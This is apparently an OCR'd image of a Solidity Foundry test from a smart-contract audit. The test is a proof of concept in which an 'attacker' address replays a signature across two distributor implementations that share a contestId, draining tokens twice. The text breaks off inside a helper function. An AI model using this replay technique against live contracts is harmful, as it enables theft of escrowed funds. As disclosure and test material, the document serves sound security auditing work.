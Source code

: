 ```solidity
    function testTwoContestAttack() public {
        // 1. prepare same contestId
        bytes32 contestId = keccak256(abi.encode("Contest", "001"));

        // 2. send tokens to proxy1 
        address proxy1 = proxyFactory.getProxyAddress(keccak256(abi.encode(TEST_SIGNER, contestId, address(distributor))), address(distributor));
        vm.startPrank(sponsor);
        MockERC20(jpycv2Address).transfer(proxy1, 10000 ether);
        vm.stopPrank();

        // 3. deploy new implemention called distributor2 with stadiumAddress2
        address stadiumAddress2 = makeAddr("stadiumAddress2");
        Distributor distributor2 = new Distributor(address(proxyFactory), stadiumAddress2);
        // 4. send tokens to proxy2
        address proxy2 = proxyFactory.getProxyAddress(keccak256(abi.encode(TEST_SIGNER, contestId, address(distributor2))), address(distributor2));
        vm.startPrank(sponsor);
        MockERC20(jpycv2Address).transfer(proxy2, 10000 ether);
        vm.stopPrank();

        // 5. set contest for combination1: (TEST_SIGNER+contestId+distributor)
        vm.startPrank(factoryAdmin);
        proxyFactory.setContest(TEST_SIGNER, contestId, block.timestamp + 1 days, address(distributor));

        // 6. set contest for combination2: (TEST_SIGNER+contestId+distributor2)
        proxyFactory.setContest(TEST_SIGNER, contestId, block.timestamp + 1 days, address(distributor2));
        vm.stopPrank();

        vm.warp(7 days);
        
        // 7. call distributeBySignature for combination1
        address normalUser = makeAddr("normal-user");
        vm.startPrank(normalUser);
        (bytes32 digest, bytes memory sendingData, bytes memory signature) = createSignatureByASignerWithContestId(TEST_SIGNER_KEY, contestId);
        assertEq(ECDSA.recover(digest, signature), TEST_SIGNER);
        proxyFactory.deployProxyAndDistributeBySignature(
            TEST_SIGNER, contestId, address(distributor), signature, sendingData
        );        
        assertEq(MockERC20(jpycv2Address).balanceOf(user1), 9500 ether);
        assertEq(MockERC20(jpycv2Address).balanceOf(stadiumAddress), 500 ether);  
        vm.stopPrank();
        
        // 8. copying the signature from the previous call and distribute for combination2
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        bytes memory copySignature = signature;
        bytes memory copySendingData = sendingData;
        assertEq(ECDSA.recover(digest, copySignature), TEST_SIGNER);
        proxyFactory.deployProxyAndDistributeBySignature(
            TEST_SIGNER, contestId, address(distributor2), copySignature, copySendingData
        );        
        assertEq(MockERC20(jpycv2Address).balanceOf(user1), 9500*2 ether);
        assertEq(MockERC20(jpycv2Address).balanceOf(stadiumAddress2), 500 ether); 
        vm.stopPrank();  
    }

    function createSignatureByASignerWithContestId(uint256 privateK, bytes32 contestId) public view returns (bytes32, bytes memory, bytes memory) {
        // organizer is test signer this time
```